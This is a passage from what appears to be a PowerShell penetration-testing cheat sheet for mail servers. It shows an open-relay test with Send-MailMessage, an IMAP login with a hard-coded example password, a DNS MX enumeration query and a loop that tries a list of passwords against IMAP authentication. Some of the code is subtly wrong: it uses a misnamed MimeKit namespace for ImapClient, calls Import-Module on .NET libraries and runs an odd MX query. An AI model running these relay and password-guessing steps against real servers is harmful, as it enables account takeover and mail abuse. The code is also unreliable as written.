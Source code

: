 ```powershell
Send-MailMessage -To "external@snowcapcyber.com" -From "user@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com
```

**Description:**

Tests for mail relay abuse by attempting to send an email to an external recipient.

**Example:**

Check if mail.snowcapcyber.com allows relaying to external@snowcapcyber.com.

---

### IMAP Server

**Script/Command:**

```powershell
Import-Module MailKit
Import-Module MimeKit
$server = "imap.snowcapcyber.com"
$port = 993
$username = "andrewblyth"
$password = "Th1s1sMypa55w0rd"
$imapClient = [MimeKit.Net.Imap.ImapClient]::new()
$imapClient.Connect($server, $port, [System.Security.Authentication.SslProtocols]::Tls)
$imapClient.Authenticate($username, $password)
```

**Description:**

Establishes a connection to the IMAP server for vulnerability testing.

**Example:**

Connect to imap.snowcapcyber.com with credentials to begin testing.

---

**Script/Command:**

```powershell
Resolve-DnsName -Name "imap" -Type MX
```

**Description:**

Enumerates IMAP servers by querying DNS records for mail exchange (MX) records.

**Example:**

Identify potential IMAP servers associated with "imap" domain.

---

**Script/Command:**

```powershell
$MyPasswordList = @("mypasswd1", "mypasswd2")
foreach ($password in $MyPasswordList) {
    try {
        $imapClient.Authenticate($username, $password)
        Write-Host "Successful login: $password"
    } catch {
        # Handle login failures here
    }
}
```
